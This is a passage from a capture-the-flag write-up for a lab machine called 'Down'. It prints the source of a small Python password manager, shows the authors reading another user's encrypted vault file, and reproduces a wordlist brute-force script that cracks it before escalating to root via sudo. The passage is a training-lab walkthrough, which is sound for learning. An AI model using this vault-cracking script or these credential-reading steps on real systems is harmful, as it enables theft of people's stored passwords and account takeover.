    if not os.path.exists(config) and create:
        with open(config, "w") as file:
            file.write("")

    return config


def get_xdg_data_path(app: str, create: bool = False) -> str:
    """
    Returns the value of the XDG_DATA_HOME environment variable with
    the app folder and file appended to it. (See example below)

    Example: Return value equals to
            "XDG_DATA_HOME/app/app"
            or
            "default/app/app" if XDG_DATA_HOME is not set

    Args:
        app (str): Name of the app to be used for the folder and the file.
        create (bool, optional): Wether to create the config file or not.
        Defaults to False. Dirs are always created if they don't exist.

    Returns:
        str: path to the app folder and file or fallback value.
    """
    return _get_xdg_path(env="XDG_DATA_HOME",
                         app=app,
                         default="~/.local/share",
                         create=create)


def args(positional=None):
    """
    Simple argument parser.

    Example:
    $: program joe 1234 -keep -host=127.0.0.1

    dictionary = args(["username", "password"])

    >> username:    joe
    >> password:    1234
    >> -keep:       True
    >> -host:       127.0.0.1

    Args:
        positional (str): A list of strings for the positional arguments.

    Returns:
        dict: A dictionary containing the argument names and their values.
    """
    positional = [] if positional is None else positional
    args_dict = {}

    # Store positional arguments
    tail = len(positional)
    for i, pos_arg in enumerate(positional):
        with suppress(IndexError):
            if str(sys.argv[i+1]).startswith("-"):
                tail = i
                break
            value = sys.argv[i+1]
            args_dict[pos_arg] = value

    # Store flags
    for i in range(tail+1, len(sys.argv)):
        try:
            value = str(sys.argv[i]).split("=")[1]
        except IndexError:
            value = True
        args_dict[str(sys.argv[i]).split("=", maxsplit=1)[0]] = value

    return args_dict


def print_pass_vault(pass_vault, alias=None):
    """
    Function to print the password vault using prettyTable.

    Args:
        pass_vault (dict): A dictionary of aliases associated to usernames
        and passwords.
        alias (str, optional): The alias to print.
        If None, all aliases are printed. Defaults to None.
    """
    if len(pass_vault) == 0:
        print("The password vault is empty.")
        return

    table = PrettyTable()
    if alias is not None:
        if alias in pass_vault:
            row = []
            row.append(alias)
            row.extend(pass_vault[alias])
            table.add_row(row)
        else:
            print("No password for " + alias + " was found.")
            return
    else:
        for stored_alias in sorted(pass_vault, key=lambda x: x[0].lower()):
            row = []
            row.append(stored_alias)
            row.extend(pass_vault[stored_alias])
            table.add_row(row)

    table.field_names = ["Alias", "Username", "Password"]
    table.align = "l"
    table.set_style(SINGLE_BORDER)
    print(table)


def register():
    """
    This function asks the user for a master password for the creation of a
    password vault.

    Returns:
        str, list: The master password and a list of lines containing the
        aliases, users and passwords for the password vault.
    """
    crypt_key = ""
    while len(crypt_key) < MIN_PASS_LENGTH or len(crypt_key) > MAX_PASS_LENGTH:
        try:
            crypt_key = getpass.getpass("[pswm] Create a master password (" +
                                        str(MIN_PASS_LENGTH) + "-" +
                                        str(MAX_PASS_LENGTH) +
                                        " chars): ")
        except KeyboardInterrupt:
            print("\n")
            return False, ""

    crypt_key_verify = ""
    while crypt_key_verify != crypt_key:
        try:
            crypt_key_verify = getpass.getpass("[pswm] Confirm your "
                                               "master password: ")
        except KeyboardInterrupt:
            print("\n")
            return False, ""

    print("Password vault ~/.pswm created.")
    lines = []
    lines.append("pswm\t" + getpass.getuser() + "\t" + crypt_key)
    return crypt_key, lines


def login():
    """
    This function decrypts and reads the password vault.

    Returns:
        str, list: The master password and a list of lines containing the
        aliases and passwords decrypted from the password vault.
    """
    for _ in range(3):

        try:
            crypt_key = getpass.getpass("[pswm] Master password: ")
        except KeyboardInterrupt:
            print("\n")
            return False, ""

        lines = encrypted_file_to_lines(PASS_VAULT_FILE, crypt_key)
        if not lines:
            print("Sorry, try again.")
        else:
            return crypt_key, lines

    print("\nYou have failed to enter the master password 3 times.")
    return reset_master_password()


def manage_master_password():
    """
    Manager function for the master password. Asks the user for the master
    password if there is already a password vault. If not, it creates a new
    password vault associated to a new master password. Can also reset the
    master password after 3 failed attempts.

    Returns:
        str, list: The master password and a list of lines containing the
        aliases and passwords decrypted from the password vault.
    """
    if not (os.path.isfile(PASS_VAULT_FILE)
            and os.path.getsize(PASS_VAULT_FILE) > 0):
        return register()
    return login()


def reset_master_password():
    """
    Function to reset the master password.

    Returns:
        str, list: The master password and a list of lines containing the
        aliases and passwords decrypted from the password vault.
    """
    print("Resetting your master password will delete your password vault.")
    try:
        text = input(
            "[pswm] Do you want to reset your master password? (y/n): ")
    except KeyboardInterrupt:
        print("\nPassword reset aborted.")
        return False, ""

    if text == "y":
        if os.path.isfile(PASS_VAULT_FILE):
            os.remove(PASS_VAULT_FILE)
            print("Password vault ~/.pswm deleted.\n")
        return manage_master_password()

    print("Password reset aborted.")
    return False, ""


def lines_to_pass_vault(lines):
    """
    Splits each line of a list of lines into two parts. Then inserts the second
    part into the dictionary indexed by the first part.

    Args:
        lines(list): A list of lines.

    Returns:
        dict: A dictionary containing the aliases, usernames and passwords.
    """
    pass_vault = {}
    for line in lines:
        line = line.rstrip()
        try:
            alias, username, password = line.split('\t')
            pass_vault[alias] = [username, password]
        except ValueError:
            pass

    return pass_vault


def pass_vault_to_lines(pass_vault):
    """
    For each key in the dictionary, it inserts a string into a list containing
    the key and the values separated by a tab.

    Args:
        pass_vault(dict): A dictionary aliases associated to usernames
        and passwords.

    Returns:
        list: A list of lines each formatted as key\tvalue[0]\tvalue[1].
    """
    lines = ['\t'.join([alias, pass_vault[alias][0], pass_vault[alias][1]])
             for alias
             in pass_vault]

    return lines


def encrypted_file_to_lines(file_name, master_password):
    """
    This function opens and decrypts the password vault.

    Args:
        file_name (str): The name of the file containing the password vault.
        master_password (str): The master password to use to decrypt the
        password vault.

    Returns:
        list: A list of lines containing the decrypted passwords.
    """
    if not os.path.isfile(file_name):
        return ""

    with open(file_name, 'r') as file:
        encrypted_text = file.read()

    decrypted_text = cryptocode.decrypt(encrypted_text, master_password)
    if decrypted_text is False:
        return False

    decrypted_lines = decrypted_text.splitlines()
    return decrypted_lines


def lines_to_encrypted_file(lines, file_name, master_password):
    """
    This function encrypts and stores the password vault.

    Args:
        lines (list): A list of lines containing the aliases and passwords.
        file_name (str): The name of the file to store the password vault.
        master_password (str): The master password to use to encrypt the
        password vault.
    """
    decrypted_text = '\n'.join(lines)
    encrypted_text = cryptocode.encrypt(decrypted_text, master_password)

    with open(file_name, 'w') as file:
        file.write(encrypted_text)


def generate_password(length):
    """
    This function generates a random password of length passed as argument.

    Args:
        length (int): The length of the random password to be generated.

    Returns:
        str: A string containing the random password.
    """
    characters = string.ascii_letters + string.digits + '%+,-./:=@^_{}~'
    return ''.join(random.choice(characters) for _ in range(length))


####################
# GLOBAL VARIABLES #
####################

HELP_MSG = '''
  pswm <alias> <user> <password>   - Store a username and a password.
  pswm <alias> <user> -g=<length>  - Store a random password for a username.
  pswm <alias> -d                  - Delete user and password for an alias.
  pswm <alias>                     - Print user and password for an alias.
  pswm -a                          - Print all stored users and passwords.
'''
MIN_PASS_LENGTH = 4
DEFAULT_PASS_LENGTH = 16
MAX_PASS_LENGTH = 32
PASS_VAULT_FILE = get_xdg_data_path("pswm")


def main():
    """
    Main function.
    """
    crypt_key, lines = manage_master_password()
    if not crypt_key:
        return

    pass_vault = lines_to_pass_vault(lines)
    arg = args(["site", "username", "password"])

    if ("password" in arg or "-g" in arg or "-d" in arg) \
            and (str(arg.get("site", "")) == "pswm"):
        print("You cannot change or delete the master password.")

    elif arg.keys() == {"site", "username", "password"}:
        pass_vault[arg["site"]] = [
            arg["username"], arg["password"]]
        print("Added username and password for " + arg["site"] + ".")

    elif arg.keys() == {"site", "username", "-g"}:
        try:
            length = int(arg["-g"])
            if length <= 4:
                raise ValueError
        except ValueError:
            length = DEFAULT_PASS_LENGTH
        pass_vault[arg["site"]] = [
            arg["username"], generate_password(length)]
        print_pass_vault(pass_vault, arg["site"])

    elif arg.keys() == {"site", "-d"}:
        try:
            del pass_vault[arg["site"]]
            print("Deleted username and password for " + arg["site"] + ".")
        except KeyError:
            print("No password found for " + arg["site"] + ".")

    elif arg.keys() == {"site"}:
        print_pass_vault(pass_vault, arg["site"])

    elif arg.keys() == {"-a"}:
        print_pass_vault(pass_vault)

    else:
        print(HELP_MSG)

    lines = pass_vault_to_lines(pass_vault)
    lines_to_encrypted_file(lines, PASS_VAULT_FILE, crypt_key)


if __name__ == "__main__":
    main()
```

By default the application expected a `pswm` file to use as `vault`.

```c
<--- CUT FOR BREVITY --->
MIN_PASS_LENGTH = 4
DEFAULT_PASS_LENGTH = 16
MAX_PASS_LENGTH = 32
PASS_VAULT_FILE = get_xdg_data_path("pswm")
<--- CUT FOR BREVITY --->
```

Since the `.local` folder was not available for the user `www-data` we checked the `home directory` of `aleks` and found the `vault file` with an `potentially encrypted password` in it.

```c
www-data@down:/home/aleks/.local/share/pswm$ cat pswm
e9la<REDACTED>CHBQ==
```

## Privilege Escalation to aleks

Since we took a break when the box was released we were pretty late to the party and some nice guy already wrote and published a `decoder` for `pswm`. Shout-out to this awesome dude!

- [https://github.com/repo4Chu/pswm-decoder](https://github.com/repo4Chu/pswm-decoder)

```c
import cryptocode

PASS_VAULT_FILE = 'pswm'
WORDLIST_PATH = '/usr/share/wordlists/rockyou.txt'

def get_encrypted_vault():
    with open(PASS_VAULT_FILE, 'r') as file:
        return file.read()

def try_password(password, encrypted_text):
    decrypted_text = cryptocode.decrypt(encrypted_text, password)
    if decrypted_text:
        print(f"Password: {password}")
        print(f"Decoded text:\n{decrypted_text}")
        return True
    return False

def brute_force_with_wordlist():
    encrypted_text = get_encrypted_vault()
    with open(WORDLIST_PATH, 'r', encoding='utf-8', errors='ignore') as file:
        for line in file:
            password = line.strip()
            if try_password(password, encrypted_text):
                return
    print("not found.")
brute_force_with_wordlist()

```

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Down/files]
└─$ cat pswm
e9la<REDACTED>CHBQ==
```

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Down/files]
└─$ python3 pswm-decoder.py
Password: flower
Decoded text:
pswm    aleks   flower
aleks@down      aleks   <REDACTED>
```

| Username | Password             |
| -------- | -------------------- |
| aleks    | <REDACTED> |

With the `password` we switched to `aleks`.

```c
aleks@down:~$ sudo su
[sudo] password for aleks: 
root@down:/home/aleks#
```

## Pivoting

As `aleks` we checked his `group memberships` and if he was able to execute any commands using `sudo`. And indeed since he was able to execute `(ALL : ALL) ALL` within `sudo` the `privilege escalation` to `root` was just `sudo su`.

```c
aleks@down:~$ id   
uid=1000(aleks) gid=1000(aleks) groups=1000(aleks),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
```

```c
aleks@down:~$ sudo -l
Matching Defaults entries for aleks on down:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User aleks may run the following commands on down:
    (ALL : ALL) ALL
```

## Privilege Escalation to root

```c
aleks@down:~$ sudo su
root@down:/home/aleks#
```

## root.txt

```c
root@down:~# cat root.txt
VL{<REDACTED>}
```
